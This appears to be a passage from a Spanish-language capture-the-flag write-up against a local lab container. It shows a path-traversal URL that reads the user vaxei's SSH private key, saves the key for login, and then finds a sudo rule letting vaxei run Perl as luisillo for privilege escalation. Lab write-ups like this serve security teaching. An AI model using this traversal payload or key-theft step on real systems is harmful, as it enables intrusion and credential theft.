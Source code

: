 ```html
http://172.17.0.2/index.php?secret=../../../../home/vaxei/.ssh/id_rsa
```

### Resultado:

Se nos mostró el contenido del archivo `id_rsa`, es decir, la **clave privada SSH del usuario `vaxei`**. Sin embargo, al copiarla directamente desde el navegador, notamos que la llave estaba **mal formateada** debido al renderizado HTML (saltos de línea incorrectos, espacios u otros símbolos que rompían el contenido).

## Solución: ver código fuente para copiar la clave correctamente

Para solucionar el problema de formato, accedimos al **código fuente** de la respuesta en el navegador usando:

```html
view-source:http://172.17.0.2/index.php?secret=../../../../home/vaxei/.ssh/id_rsa
```

Esto permitió visualizar la clave en **su formato plano original**, con los saltos de línea y el contenido tal como debe ser para que OpenSSH la interprete correctamente.

## Guardar la clave y prepararla para uso con SSH

Con la clave correctamente copiada, realizamos los siguientes pasos en la terminal:

1. **Crear un archivo para la clave:**

```bash
nano id_rsa
```

**Pegar el contenido de la clave tal cual** y luego **Guardar y cerrar**, luego proteger la clave con los permisos adecuados:

```bash
chmod 600 id_rsa
```

Esto es obligatorio, ya que `ssh` no aceptará claves con permisos inseguros.

## Escalada de privilegios de `vaxei` a `luisillo` usando Perl y reverse shell

Una vez obtenida la shell como el usuario `vaxei`, se realizó una revisión de privilegios sudo mediante:

```bash
sudo -l 

User vaxei may run the following commands on 2af585ee55bb:
    (luisillo) NOPASSWD: /usr/bin/perl
```

Esta configuración indica que `vaxei` tiene permisos para ejecutar el binario `/usr/bin/perl` como el usuario `luisillo`, sin necesidad de ingresar contraseña. Dado que **Perl permite ejecutar código arbitrario del sistema**, este acceso representa una clara oportunidad de escalada.
